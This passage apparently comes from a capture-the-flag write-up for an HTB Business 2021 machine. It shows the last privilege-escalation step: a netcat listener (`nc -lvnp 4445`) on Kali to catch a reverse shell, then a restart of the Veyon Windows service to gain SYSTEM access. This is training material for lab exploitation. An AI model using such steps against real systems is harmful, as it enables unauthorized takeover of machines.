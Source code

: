Restart `Veyon Service`, and start a listener on kali linux `nc -lvnp 4445`
```bash
PS C:\temp> sc.exe stop VeyonService

SERVICE_NAME: VeyonService 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0
PS C:\temp> sc.exe start VeyonService
```
![nt\authority Access](/assets/images/htbbiz2021-parkor/root.png)